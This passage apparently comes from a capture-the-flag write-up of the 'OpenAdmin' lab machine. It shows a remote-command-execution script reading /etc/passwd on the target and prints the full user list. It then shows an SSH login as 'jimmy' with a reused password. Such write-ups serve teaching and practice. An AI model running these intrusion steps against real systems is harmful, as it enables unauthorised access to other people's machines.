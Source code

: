     ?>END

We want to try this password against SSH users but we don't know them. We can
just cat `/etc/passwd` to get a list of the system's user.

    :::text
    sh ona_rce.sh 'cat /etc/passwd'
                    <pre style="padding: 4px;font-family: monospace;">BEGIN
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
    joanna:x:1001:1001:,,,:/home/joanna:/bin/bash

I tried to logged as `joanna` first but the password was `jimmy`'s.

    :::text
    ssh jimmy@10.10.10.171
    jimmy@openadmin:~$ id
    uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)

## Internal

We notice that we are part of the `internal` group. Therefore we look for files
belonging to this specific group and found some "internal" directory containing
three PHP script.
